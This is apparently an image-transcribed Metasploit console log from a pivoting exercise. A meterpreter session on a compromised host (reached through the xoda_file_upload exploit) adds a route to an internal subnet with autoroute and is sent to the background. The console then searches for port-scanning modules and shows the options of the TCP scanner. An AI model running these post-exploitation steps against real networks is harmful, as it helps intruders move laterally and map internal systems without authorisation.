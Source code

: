 ```
meterpreter > run autoroute -s 192.88.231.2

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.88.231.2/255.255.255.0...
[+] Added route to 192.88.231.2/255.255.255.0 via 192.67.240.3
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.88.231.2       255.255.255.0      Session 1

meterpreter > background
[*] Backgrounding session 1...
```

```
msf5 exploit(unix/webapp/xoda_file_upload) > search portscan

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wordpress_pingback_access                   normal  No     Wordpress Pingback Locator
   1  auxiliary/scanner/natpmp/natpmp_portscan                           normal  No     NAT-PMP External Port Scanner
   2  auxiliary/scanner/portscan/ack                                     normal  No     TCP ACK Firewall Scanner
   3  auxiliary/scanner/portscan/ftpbounce                               normal  No     FTP Bounce Port Scanner
   4  auxiliary/scanner/portscan/syn                                     normal  No     TCP SYN Port Scanner
   5  auxiliary/scanner/portscan/tcp                                     normal  No     TCP Port Scanner
   6  auxiliary/scanner/portscan/xmas                                    normal  No     TCP "XMas" Port Scanner
   7  auxiliary/scanner/sap/sap_router_portscanner                       normal  No     SAPRouter Port Scanner


msf5 exploit(unix/webapp/xoda_file_upload) > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > show options

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
```